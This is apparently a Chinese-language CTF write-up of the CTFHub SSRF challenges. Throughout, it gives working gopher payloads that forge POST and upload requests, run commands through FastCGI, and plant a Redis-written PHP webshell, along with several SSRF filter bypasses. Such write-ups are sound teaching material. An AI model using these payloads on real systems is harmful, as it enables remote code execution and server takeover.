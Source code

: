 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-Writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup
  - ctfhub
  - ssrf

comment: false
typora-root-url: ..\..\..\.vuepress\public
---
```


## SSRF
  ![ssrf](/assets/img/ctf/ssrf.png)
### 内网访问
  直接构造访问请求,获取flag
  ```
  /?url=127.0.0.1/flag.php
  ```
### 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
### 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
### POST请求  
  访问/?url=127.0.0.1/flag.ph,返回页面  
  ![post1](/assets/img/ctf/post1.png)  
  包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  

  ```
  <input type="submit" name="sbumit">
  ```
  ![post3](/assets/img/ctf/post3.png)  
  在页面上提交key，页面返回"Just View From 127.0.0.1"  
  ![post5](/assets/img/ctf/post5.png)  
  可见需要通过SSRF提交请求，构造POST请求
  ```
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1:80
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36

    key=99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
  ```
​    POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
​    得到flag   
​    ![post4](/assets/img/ctf/post4.png)

### 文件上传
  使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
  ```php html
  <?php
  error_reporting(0);
  if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
      echo "Just View From 127.0.0.1";
      return;
  }
  if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
      echo getenv("CTFHUB");
      exit;
  }
  ?>
  Upload Webshell
  <form action="/flag.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file">
  </form>
  ```

  访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
  ![upload1](/assets/img/ctf/upload1.png)  
  提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
  ![upload2](/assets/img/ctf/upload2.png)  
  对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

  ```
  POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
  ```
  使用gopher发送请求，得到flag  
  ![upload3](/assets/img/ctf/upload3.png)
### FastCGI协议
  [fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
  [gopher payload工具](https://github.com/tarunkant/Gopherus)  
  使用gopherus工具生成payload，运行命令`ls /`  
  ![fastcgi1](/assets/img/ctf/fastcgi1.png)   
  进行url编码后得到提交payload  
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```
  发送请求，获取`/`下目录情况,发现flag文件  
  ![fastcgi2](/assets/img/ctf/fastcgi2.png)    
  使用gopherus工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`   
  ![fastcgi3](/assets/img/ctf/fastcgi3.png)   
  进行url编码后得到提交payload    
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_14e0ba551d369f7992793e0b62395dc5%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```
  发送请求，获得flag  
  ![fastcgi4](/assets/img/ctf/fastcgi4.png)

### Redis协议
  [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)  
  redis写shell命令如下
  ```shell
  flushall
  set 1 '<?php eval($_GET["feng"]);?>'
  config set dir /var/www/html
  config set dbfilename feng.php
  save
  ```
  使用gopherus工具生成redis攻击payload  
  ![redis1](/assets/img/ctf/redis1.png)  
  进行url编码得到请求payload
  ```
  gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
  ```
  请求后生成一句话shell.php文件，利用参数cmd，构造请求`/shell.php?cmd=ls%20/`  
  ![redis2](/assets/img/ctf/redis2.png)  
  获取flag文件，再构造请求`/shell.php?cmd=cat%20/flag_1d41ab57dcc1507d5d99e103cdca52da`,获得flag  
  ![redis3](/assets/img/ctf/redis3.png)  
### URL Bypasss
  访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
  ```url
  /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
  ```
### 数字IP Bypass
  题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
  - 方法一：  
  使用localhost代替127.0.0.1,构造请求url如下，获取flag
  ```url
  /?url=http://localhost/flag.php
  ```
  - 方法二:  
  将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
  ```url
  /?url=http://0x7F000001/flag.php
  ```  

### 302跳转 Bypass
  题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
  ![短链接访问](/assets/img/ctf/302.png)
### DNS重绑定
  [DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)  
  使用file://协议查看flag.php查看代码发现过滤了`/127|172|10|192/`开头，可以用16进制方式绕过，但是考虑到题目要求使用DNS重绑定  
  使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)获取域名  
  ![dns1](/assets/img/ctf/dns1.png)  
  访问或取flag  
  ![dns2](/assets/img/ctf/dns2.png)
